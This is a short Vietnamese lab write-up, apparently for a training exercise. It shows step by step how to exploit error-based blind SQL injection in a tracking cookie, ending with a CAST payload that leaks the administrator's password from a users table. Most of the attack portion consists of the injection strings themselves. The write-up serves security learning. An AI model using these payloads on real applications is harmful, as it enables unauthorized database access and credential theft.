 Helu các bạn nha
Nay mình sẽ giới thiệu cho các bạn loại bài Blindsql tiếp
Đề bài nó như này
![Alt text](image-27.png)
Thì khi mở ra mình vẫn injection và trong cookie :
                                        ' AND 1='1
   và hầu như vẫn hoạt động, tiếp theo đó mình là test thử
                                        'AND (UNION 'a' FROM users WHERE username='administrator') ='a

Đúng như dự đoán thì nó trả về lỗi như này
![Alt text](image-28.png)
Sơ sơ qua thì nó bảo là nó không nhận giá trị so sánh là number;
Vậy nên mình nghĩ đến hàm CAST chuyển một giá trị chuỗi sang number
                                        ' AND CAST((SELECT 1) AS int)--
Khi mà mình pick giá trị trên thì nó lại báo
![Alt text](image-29.png)
Vấn đề là do nó chỉ type là boolean để so sánh chứ không nhận interger
                                        ' AND 1 = CAST((SELECT 1) AS int) --
Thì hết bảo lỗi có vẻ như mình đi đúng hướng
    Tiếp theo đó thì mình sẽ injection vào csdl
                                        ' AND 1 = CAST((SELECT password FROM users WHERE username ='administrator') AS int) --
![Alt text](image-30.png)
Có vẻ như truy vấn bị giới Hạn đến chữ Wh trong WHERE thôi là ở vị trí 95
Nên mình đã thử làm nó ngắn lại bằng cách vứt cái where :v
                                        ' AND 1 = CAST((SELECT password FROM users) AS int) --
Sau một hồi cặm cụi thì mình searching :v
                                        ' || cast((select password from users limit 1) AS INT) --; 
Và điều kiện là bạn phải xóa trackingId đi vì nó check độ dài và dùng || để check
![Alt text](image-31.png)
đây là kết quả mà có ai code mà trả ra như này đâu:v
@@ chúc các bạn thành công nha